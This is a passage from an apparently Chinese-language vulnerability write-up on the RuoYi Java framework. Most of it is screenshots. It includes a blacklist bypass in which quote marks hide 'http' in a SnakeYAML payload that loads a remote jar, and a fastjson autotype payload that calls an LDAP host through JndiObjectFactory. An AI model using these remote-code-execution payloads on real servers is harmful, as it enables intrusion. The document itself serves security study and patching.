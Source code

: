 ![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamwztnEDGGEXk6iakXvS4a3gXib6U7hCYwMThBGnnkFZXrH0JsKLToaaLA/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamvMWWdH1wJ01LrCKBcjAE2AAh8AGHrwm71RhtaXZcyuJsY6H9ic312BA/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamTicQqYlFY1SsskOkRGmIsEYUvIqc4v13FOU7CkOKllpXiahRpBpjWYibg/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
工具使用：  
  
https://github.com/charonlight/RuoYiExploitGUI  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamLQRebbkUAic1tib1mpoqMic2hTib6Gt5yBgCcQiaxib5F7Wf3E5dY0MNCJ7w/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamBSOA0TuEFxadk01HibwzJvM2tEMXXf1HohD3mleg87iaTjrVFJq1iagaQ/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamWOUdnxALTnq1XEnrlJs6RxPtP10OibVWuU5lu7eS80rZXwAZDDujkibQ/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
## 0x06 修复方式  
  
1、升级版本。  
## 0x07 bypass  
### 版本4.6.2<=Ruoyi<4.7.2  
  
这个版本采用了黑名单限制调用字符串  
- 定时任务屏蔽ldap远程调用  
  
- 定时任务屏蔽http(s)远程调用  
  
- 定时任务屏蔽rmi远程调用  
  
**Bypass**  
咱们只需要在屏蔽的协议加上单引号,接着采用之前的方式例如:  
```
org.yaml.snakeyaml.Yaml.load(’!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [“**h’t’t’p’:**//127.0.0.1:88/yaml-payload.jar”]]]]’)
```  
# 0x07 fastjson反序列化  
  
关注两个函数 parse 和 parseObject JSONObject.parse  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamFYtXCYM0tBX7zI5u4LFJj4HtkN2ekN1gU0BVUbZG1I9GMhMn7F53YQ/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamSosCHAUaribqI5BIQUHYyKHK4zbGXroIY75CqE7ktia9ibP9aBDIUbJdg/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamb6KTXTnDzNBH6IpgSv5Pwfy72Hiav16EIfMuCfr0Byc0FXq7MHCZMuA/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
开启 autotype  
```
params[@type]=org.apache.shiro.jndi.JndiObjectFactory&params[resourceName]=ldap://192.168.12.76:1389/09rlhv
```  
## ruoyi4.2.0  
  